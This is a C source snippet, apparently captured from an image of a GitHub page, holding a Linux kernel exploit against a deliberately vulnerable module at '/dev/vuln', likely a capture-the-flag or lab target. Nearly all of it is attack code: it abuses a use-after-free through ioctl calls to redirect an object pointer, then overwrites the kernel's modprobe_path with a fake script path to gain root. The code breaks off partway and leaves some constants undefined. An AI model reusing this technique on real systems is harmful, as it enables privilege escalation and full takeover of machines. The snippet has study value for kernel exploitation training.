```c

#define OBJ_MAX 0x200
#define OBJ_SIZE 0x200

#define MODULE_NAME "/dev/vuln"

typedef struct
{
    int id;
    size_t size;
    char *data;
} request_t;

unsigned long modprobe_path = 0xffffffff81eaeac0;

unsigned long objs = 0xffffffffc0002660;

int main(void)
{
    int exp_fd = SYSCHK(open(MODPROBE_FAKE, O_RDWR | O_CREAT, 0777));
    SYSCHK(write(exp_fd, MODPROBE_SCRIPT, strlen(MODPROBE_SCRIPT)));
    SYSCHK(close(exp_fd));

    int victim = open(MODULE_NAME, O_RDWR);
    if (victim < 0)
    {
        error("[-] open %s failed", MODULE_NAME);
        exit(1);
    }
    info("victim fd: %d", victim);

    request_t req = {.id = 0, .size = 0x0, .data = NULL};
    ioctl(victim, CMD_ALLOC, &req);
    ioctl(victim, CMD_FREE, &req);

    char payload[0x200] = {0};
    unsigned long *p = (unsigned long *)&payload[0x100];
    *p = objs+0x20;
    req.data = payload;
    req.size = sizeof(payload);
    ioctl(victim, CMD_WRITE, &req);
    req.id = 1;
    req.size = 0x0;
    req.data = NULL;
    ioctl(victim, CMD_ALLOC, &req);
    req.id = 2;
    ioctl(victim, CMD_ALLOC, &req);
    char p2[0x8] = {0};
    unsigned long *p2_ = (unsigned long *)&p2[0x0];
    *p2_ = modprobe_path;
    req.id = 2;
    req.data = p2;
    req.size = sizeof(p2);
    success("overwrite objs");
    ioctl(victim, CMD_WRITE, &req);

    req.id = 4;
    req.data = MODPROBE_FAKE;
    req.size = strlen(MODPROBE_FAKE);

    success("overwrite modprobe_path");
    ioctl(victim, CMD_WRITE, &req);

```